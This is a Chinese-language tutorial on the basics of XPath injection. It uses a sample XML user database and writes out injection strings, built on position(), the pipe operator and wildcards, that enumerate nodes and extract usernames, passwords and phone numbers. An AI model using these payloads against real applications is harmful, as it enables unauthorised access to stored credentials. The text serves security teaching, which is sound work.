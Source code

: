 ##基础知识XPATH注入

在本教程中，我们将讨论XPATH注入的基本知识，并学习注入XPATH查询的基础知识。XPATH查询也像SQL查询一样。注入XPATH的规则也与SQL查询相同。您必须注意用单引号或双引号关闭输入，然后根据需要进行注释。为了更好的理解，我将使用XML文件来解释本教程中的所有示例，您也可以使用[Leettime][Leettime]进行练习

[Leettime]:http://leettime.net/sqlninja.com/

```
<userdb>
	<user>
		<name first="Jeff" last="Smiley"/>
		<id>1</id>
		<username>Jefferson</username>
		<password>Jutobi</password>
		<phone>123-456-7890</phone>
	</user>
	<user>
		<name first="Chunk" last="MacRunfast"/>
		<id>2</id>
		<username>Alexandra</username>
		<password>securityidiots</password>
		<phone>603-478-4115</phone>
	</user>
	<user>
		<name first="Zenodermus" last="Javanicus"/>
		<id>3</id>
		<username>Zen</username>
		<password>@lltogether</password>
		<phone>222-222-2222</phone>
	</user>
</userdb>
```
我们不是直接从XPATH注入说起，而是通过一条我们熟知的SQL查询语句来告诉你如何简单地将SQL查询关联或转换为XPATH查询。以下是一个基本的SQL查询，我们使用id上的条件从数据库userdb下的表user中提取用户名。

`select username from userdb.user where id=1`

现在让我们将上述查询转换为XPATH查询并查看其差异。

`/userdb/user[id='1']/username`

正如你在上面的查询中看到的，我们首先指定了路径，然后指定了条件，然后指定了我们想要提取的内容，就这么简单。现在我希望你能理解基本的XPATH查询。因此，现在让我们注入上面的查询来逐一枚举每个用户的用户名，假设我们不知道每个用户的用户ID，并且我们想检查所有用户的用户名，那么我们可以使用position()函数。这是一个position函数的例子。

```
/userdb/user[position()=1]/username
将提取第一个用户名是"Jefferson"

/userdb/user[position()=2]/username
将提取第一个用户名是"Alaxandra"

/userdb/user[position()=3]/username
将提取第一个用户名是 "Zen"
```

现在让我们使用之前使用的查询并使用位置函数注入它。 

`/userdb/user[id='our_input_here']/username`

我们输入 ' or position()=1 or ' 将组合为如下语句

`/userdb/user[id='' or position()=1 or '']/username`

将提取第一个用户名是 "Jefferson"

这意味着条件id为空，我们将得到第一个用户名。但是这样的注入不允许我们列举其他细节，比如SQL中的其他列或XPATH中的其他列，也可以说其他的兄弟姐妹节点。原因是因为在查询结束时的'/username'使我们的查询只能提取用户名。 所以我们该如何查询其他兄弟姐妹节点，在这里，我们使用管道符为我们提供一个旁路以此来绕过查询限制，管道符也称为XPATH的联合选择操作符。一个管道操作符可以用来连接两个不同的语句，使用管道符我们可以将`/username`部分分隔到下一个语句中，并且不管第二个语句有任何输出，因为 XPATH会从第一个声明给我们输出。这意味着我们需要关注的只是保持我们的第一个语句有效。所以我们可以让我们的查询是这样的。

```
/userdb/user[id='our_input_here']/username
我们输入 ' or position()=1]/New_Element_name|a[' 查询将变成如下语句
/userdb/user[id='' or position()=1]/New_Element_name|a['']/username
```
现在，例如我们想要使用上面的注入提取用户的密码，然后我们只需要将密码列的名称放在元素的位置，这会给我们下面的结果：

`/userdb/user[id='ourinputhere']/username`

我们输入` ' or position()=1]/password|a['` 查询将变成下列语句

`/userdb/user[id='' or position()=1]/password|a['']/username`

将提取第一个用户的密码，即"Jutobi"

它会成功地给我们返回密码，但现在我们只是假设密码列名是password，这只是一个假设。但是如果密码的列名称是`'my_pass'`那么我们将无法提取它。
在这里，我们可以使用另一个技巧，如果仔细阅读选择未知节点，那么您可能知道我们可以做什么。我们可以使用通配符`*`来选择一个未知的节点或元素，并且我们必须指定我们想要的元素。请仔细看下面的例子： 

```
/userdb/user[id='ourinputhere']/username
我们输入 ' or position()=1]/*[1]|a[' 查询将变为下列语句
/userdb/user[id='' or position()=1]/*[1]|a['']/username
它不会提取任何东西，因为元素是属性而非元素值
/userdb/user[id='' or position()=1]/*[2]|a['']/username
它将获得第一个用户的第二个元素，即 '1'.
/userdb/user[id='' or position()=1]/*[3]|a['']/username
它将获得第一个用户的第三个元素，即"Jefferson".
/userdb/user[id='' or position()=1]/*[4]|a['']/username
它将获得第一个用户的第四个元素，即"Jutobi".
/userdb/user[id='' or position()=1]/*[5]|a['']/username
它将获得第一个用户的第五个元素，即 "123-456-7890".
```

 <font color=red>' or position()=2]/*[1]|a['</font>
 
查询中的红色部分是我们的注入的payload。以这种方式，我们可以枚举第一个元素的所有兄弟节点，现在让我们改变position()来枚举第二个用户的所有值。

```
/userdb/user[id='ourinputhere']/username
我们输入' or position()=2]/*[1]|a[' 查询会变成下列语句
/userdb/user[id='' or position()=2]/*[1]|a['']/username
它不会提取任何东西，因为元素是属性而非元素值
/userdb/user[id='' or position()=2]/*[2]|a['']/username
它将获得第一个用户的第二个元素'2'。
/userdb/user[id='' or position()=2]/*[3]|a['']/username
它将获得第一个用户的第三个元素，即"Alexandra".
/userdb/user[id='' or position()=2]/*[4]|a['']/username
它将获得第一个用户的第四个元素，即"securityidiots".
/userdb/user[id='' or position()=2]/*[5]|a['']/username
它将获得第一个用户的第五个元素，即 "603-478-4115".
```

以同样的方式，我们也可以提取第三个用户的详细信息。
